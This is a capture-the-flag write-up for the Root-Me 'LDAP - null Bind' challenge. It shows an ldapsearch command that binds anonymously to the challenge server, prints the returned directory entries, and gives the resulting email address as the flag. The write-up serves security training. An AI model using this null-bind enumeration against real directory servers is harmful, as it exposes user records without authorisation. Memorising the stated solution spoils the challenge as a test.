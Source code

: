 ```yaml
---
title: LDAP - null Bind
date: '2022-08-31'
tags: ['ftp', 'root-me', 'writeups','network']
draft: false
summary: Writeup of LDAP - null Bind file challenges.
---
```


# Option 1: ldapadmin

[ldapadmin](https://user-images.githubusercontent.com/61643034/187846896-7d000d04-4ef4-4bab-b3d7-a45d2699eea6.png)



# Option2
The Challenge’s title reveals we’ll be using LDAP Null Bind to solve it.
The information also reveals that we might be looking for someone for the anonymous OU.

On a Unix system, use ldapsearch to perform a query against the LDAP server.

Using the following command, we’ll retrieve the info we need:

 -x = Simple authentication
 -b = base dn for search
 -H = LDAP Uniform Resource Identifier(s) You could also use -h and -p for this

```ldapsearch -x -b "ou=anonymous,dc=challenge01,dc=root-me,dc=org" -H "ldap://challenge01.root-me.org:54013"```

The result of this command is:
```
# extended LDIF
#
# LDAPv3
# base <ou=anonymous,dc=challenge01,dc=root-me,dc=org> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# anonymous, challenge01.root-me.org
dn: ou=anonymous,dc=challenge01,dc=root-me,dc=org
objectClass: organizationalUnit
ou: anonymous

# sabu, anonymous, challenge01.root-me.org
dn: uid=sabu,ou=anonymous,dc=challenge01,dc=root-me,dc=org
objectClass: inetOrgPerson
objectClass: shadowAccount
uid: sabu
sn: sabu
cn: sabu
givenName: sabu
mail: sabu@anonops.org

# search result
search: 2
result: 0 Success
```
 numResponses: 3
 
 numEntries: 2
 
As such revealing the email address we’re looking for: ```sabu@anonops.org```
